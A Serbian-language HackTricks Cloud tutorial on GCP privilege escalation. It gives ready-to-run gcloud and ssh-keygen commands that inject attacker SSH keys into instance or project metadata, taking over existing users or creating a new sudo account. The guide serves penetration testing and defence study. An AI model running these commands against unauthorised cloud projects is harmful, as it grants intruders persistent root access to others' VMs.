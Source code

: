 # GCP - Dodavanje prilagođenih SSH metapodataka

## GCP - Dodavanje prilagođenih SSH metapodataka

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

### Modifikacija metapodataka <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modifikacija metapodataka na instanci može dovesti do **značajnih bezbednosnih rizika ako napadač dobije potrebne dozvole**.

#### **Uključivanje SSH ključeva u prilagođene metapodatke**

Na GCP-u, **Linux sistemi** često izvršavaju skripte iz [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Kritična komponenta ovoga je [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), koji je dizajniran da **redovno proverava** krajnju tačku metapodataka instance za **ažuriranja autorizovanih SSH javnih ključeva**.

Stoga, ako napadač može da modifikuje prilagođene metapodatke, mogao bi da natera daemon da pronađe novi javni ključ, koji će biti obrađen i **integrisan u lokalni sistem**. Ključ će biti dodat u `~/.ssh/authorized_keys` datoteku **postojećeg korisnika ili potencijalno kreirati novog korisnika sa `sudo` privilegijama**, u zavisnosti od formata ključa. A napadač će moći da kompromituje host.

#### **Dodavanje SSH ključa postojećem privilegovanom korisniku**

1. **Istražite postojeće SSH ključeve na instanci:**
*   Izvršite komandu da opišete instancu i njene metapodatke kako biste locirali postojeće SSH ključeve. Relevantni deo u izlazu biće pod `metadata`, posebno ključ `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Obratite pažnju na format SSH ključeva: korisničko ime prethodi ključevi, odvojeni dvotačkom.
2. **Pripremite tekstualnu datoteku za SSH ključ metapodatke:**
* Sačuvajte detalje korisničkih imena i njihovih odgovarajućih SSH ključeva u tekstualnu datoteku pod imenom `meta.txt`. Ovo je neophodno za očuvanje postojećih ključeva dok dodajete nove.
3. **Generišite novi SSH ključ za ciljanog korisnika (`alice` u ovom primeru):**
*   Koristite komandu `ssh-keygen` da generišete novi SSH ključ, osiguravajući da se polje komentara (`-C`) poklapa sa ciljnim korisničkim imenom.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Dodajte novi javni ključ u `meta.txt`, imitujući format koji se nalazi u metapodacima instance.
4. **Ažurirajte SSH ključ metapodatke instance:**
*   Primijenite ažurirane SSH ključ metapodatke na instancu koristeći komandu `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Pristupite instanci koristeći novi SSH ključ:**
*   Povežite se na instancu putem SSH koristeći novi ključ, pristupajući shell-u u kontekstu ciljanog korisnika (`alice` u ovom primeru).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Kreirajte novog privilegovanog korisnika i dodajte SSH ključ**

Ako se ne pronađe zanimljiv korisnik, moguće je kreirati novog koji će dobiti `sudo` privilegije:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH ključevi na nivou projekta <a href="#sshing-around" id="sshing-around"></a>

Moguće je proširiti domet SSH pristupa na više Virtuelnih Mašina (VM) u cloud okruženju **primenom SSH ključeva na nivou projekta**. Ovaj pristup omogućava SSH pristup bilo kojoj instanci unutar projekta koja nije eksplicitno blokirala SSH ključeve na nivou projekta. Evo sažetog vodiča:

1. **Primena SSH ključeva na nivou projekta:**
*   Koristite komandu `gcloud compute project-info add-metadata` da dodate SSH ključeve iz `meta.txt` u metapodatke projekta. Ova akcija osigurava da SSH ključevi budu prepoznati na svim VM-ovima u projektu, osim ako VM nema omogućenu opciju "Blokiraj SSH ključeve na nivou projekta".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH u instance koristeći ključeve na nivou projekta:**
* Sa SSH ključevima na nivou projekta, možete SSH u bilo koju instancu unutar projekta. Instance koje ne blokiraju ključeve na nivou projekta će prihvatiti SSH ključ, omogućavajući pristup.
* Direktna metoda za SSH u instancu je korišćenje komande `gcloud compute ssh [INSTANCE]`. Ova komanda koristi vaše trenutno korisničko ime i SSH ključeve postavljene na nivou projekta da pokuša pristup.

## Reference

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
